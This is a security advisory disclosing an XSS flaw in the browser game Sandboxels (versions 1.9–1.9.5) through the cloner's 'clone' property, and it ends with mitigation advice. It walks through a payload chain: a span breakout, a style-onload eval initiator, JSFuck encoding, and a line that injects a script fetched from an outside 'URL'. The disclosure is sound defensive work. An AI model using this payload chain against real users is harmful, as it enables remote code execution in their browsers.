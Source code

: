 # Cross-site scripting vulnerability for Sandboxels 1.9 - 1.9.5
This report details a cross-site scripting (XSS) vulnerability in Sandboxels (https://sandboxels.r74n.com/) affecting versions 1.9 to 1.9.5. The vulnerability can be exploited without requiring any game modifications.

## Vulnerability Overview
Sandboxels has a feature that lets some elements clone other pixels. Each cloning element (referred to as a "cloner") starts cloning the first pixel it touches. That pixel's element is displayed below the game canvas when hovering over the cloner.

## Exploit Details
Since version 1.9 which adds saves that can be manipulated in external programs and version 1.9.1 which adds a Prop tool, that property can be exploited to display arbitrary message below the game canvas. Since elements aren't verified or sanitized, that field can be exploited to execute JavaScript code (XSS):
```js
if (elements[currentPixel.element].hoverStat) {
    stats += "<span id='stat-hover' class='stat'>"+elements[currentPixel.element].hoverStat(currentPixel)+"</span>";
}
else if (currentPixel.clone) {
    stats += "<span id='stat-clone' class='stat'>"+currentPixel.clone.toUpperCase()+"</span>";
}
```
The uppercase value of the `clone` property is appended to the HTML code inside of `stats` div without any validation.

## Proof of concept
To manipulate the `clone` property of a pixel, the Prop tool is utilized. This tool allows players to change the properties of a pixel to any data without modifying the save file.

1. The attacker escapes the `<span>` tag using a `</span>` closing tag
2. The attacker injects JavaScript code using a known vulnerability, such as `<style onload=''></style>`. The injected code will function as an initiator: `eval(document.getElementById("1").innerHTML.toLowerCase())`
This code will turn any code found inside of an element with id of 1 into lowercase and run it.
Since the initiator code can't contain lowercase letters, a tool like [JSFuck](https://jsfuck.com/) should be used to remove such characters.
3. The attacker uses a `<p>` (or any other text-based tag) with an id of 1 to store the rest of the code. This code will be used to load an external script: `let a=document['createElement']('script');a.src='URL';document.head.append(a)`. Since this code will be turned into lowercase, it can't contain any uppercase characters, so a tool like JSFuck should be used to change any code that might contain such characters (such as 'createElement' in this case). That also mean that the URL can't contain such characters either.

### Steps to reproduce
1. Select the Prop tool in Sandboxels
2. Paste the code from `initiator.js` into browser's console
3. Use the Prop tool on some pixels
4. Hover over those pixels
5. Code from `test.js` should be executed

## Mitigation Recommendations
To prevents this XSS vulnerability, the following measures should be implemented:
* **Input Validation and Sanitization**: All inputs should be properly validated and sanitized, especially if they affect HTML content
* **Escape Output**: Any user-generated content should be escaped before inserting it into the DOM

By addressing these issues, the security of Sandboxels can be significantly improved, protecting users from potential XSS attacks.
